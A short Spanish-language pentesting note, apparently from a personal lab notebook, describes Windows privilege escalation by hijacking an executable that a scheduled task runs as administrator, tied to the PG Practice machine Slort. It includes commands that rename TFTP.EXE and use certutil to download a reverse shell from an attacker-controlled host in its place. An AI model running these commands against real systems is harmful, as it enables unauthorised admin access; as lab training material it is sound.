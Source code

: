 ## DESCRIPTION

En algunos equipos puede haber una tarea programada que ejecute un .EXE como administrador cada X periodo de tiempo.

En determinados casos la herramienta WINPEAS puede encontrarlo.

#### Mas información


## EXPLOITATION

### OPTION 1: .EXE HIJACKING

1. Encontramos el ejecutable o bien con winpeas o bien enumerando ficheros que nos den alguna pista como el siguietne ejemplo:
![[Pasted image 20230320172343.png]]

![[Pasted image 20230320172355.png]]

Es decir que se ejecuta una tarea programada que ejecutata “posiblemente como administrador” el ejecutable TFTP.EXE 

2. Creamos una reverse shell con el mismo nombre y lo subimos a ese directorio.

```
# 1º Movemos el fichero original

move TFTP.EXE TFTPold.EXE

# 2º Subimos la shell reversa

certutil.exe -urlcache -f http://192.168.45.5/TFTP.exe shell.exe

move shell.exe TFTP.EXE

```

3. Nos ponemos a la esucha y pasada el tiempo recibimos respuesta.

## MACHINES

* Hack The Box: 
* PG Practice: Slort
